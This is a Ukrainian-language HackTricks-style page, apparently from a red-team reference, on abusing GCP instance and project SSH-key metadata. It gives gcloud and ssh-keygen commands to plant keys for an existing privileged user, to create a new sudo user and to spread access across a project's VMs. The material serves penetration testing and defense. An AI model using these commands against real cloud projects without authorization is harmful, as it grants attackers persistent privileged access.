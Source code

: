 # GCP - Додати користувацькі SSH метадані

## GCP - Додати користувацькі SSH метадані

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

### Модифікація метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Модифікація метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

#### **Включення SSH ключів у користувацькі метадані**

На GCP, **Linux системи** часто виконують скрипти з [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичним компонентом цього є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих SSH публічних ключів**.

Отже, якщо зловмисник може модифікувати користувацькі метадані, він може змусити демон знайти новий публічний ключ, який буде оброблений і **інтегрований у локальну систему**. Ключ буде додано до файлу `~/.ssh/authorized_keys` **існуючого користувача або потенційно створити нового користувача з привілеями `sudo`**, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

#### **Додати SSH ключ до існуючого привілейованого користувача**

1. **Перевірте існуючі SSH ключі на екземплярі:**
*   Виконайте команду для опису екземпляра та його метаданих, щоб знайти існуючі SSH ключі. Відповідний розділ у виході буде під `metadata`, зокрема ключ `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Зверніть увагу на формат SSH ключів: ім'я користувача передує ключу, розділене двокрапкою.
2. **Підготуйте текстовий файл для метаданих SSH ключа:**
* Збережіть деталі імен користувачів та їх відповідних SSH ключів у текстовому файлі з назвою `meta.txt`. Це важливо для збереження існуючих ключів під час додавання нових.
3. **Згенеруйте новий SSH ключ для цільового користувача (`alice` у цьому прикладі):**
*   Використовуйте команду `ssh-keygen` для генерації нового SSH ключа, переконавшись, що поле коментаря (`-C`) відповідає цільовому імені користувача.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Додайте новий публічний ключ до `meta.txt`, імітуючи формат, знайдений у метаданих екземпляра.
4. **Оновіть метадані SSH ключа екземпляра:**
*   Застосуйте оновлені метадані SSH ключа до екземпляра, використовуючи команду `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Отримайте доступ до екземпляра, використовуючи новий SSH ключ:**
*   Підключіться до екземпляра за допомогою SSH, використовуючи новий ключ, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Створіть нового привілейованого користувача та додайте SSH ключ**

Якщо не знайдено цікавого користувача, можна створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH для кількох віртуальних машин (VM) у хмарному середовищі, **застосувавши SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра в проекті, який не заблокував SSH ключі на рівні проекту. Ось узагальнений посібник:

1. **Застосуйте SSH ключі на рівні проекту:**
*   Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія забезпечує визнання SSH ключів на всіх VM у проекті, якщо тільки VM не має увімкненої опції "Блокувати SSH ключі на рівні проекту".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH до екземплярів, використовуючи ключі на рівні проекту:**
* З ключами на рівні проекту ви можете SSH до будь-якого екземпляра в проекті. Екземпляри, які не блокують ключі на рівні проекту, приймуть SSH ключ, надаючи доступ.
* Прямий спосіб підключитися до екземпляра - це використання команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, для спроби доступу.

## Посилання

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
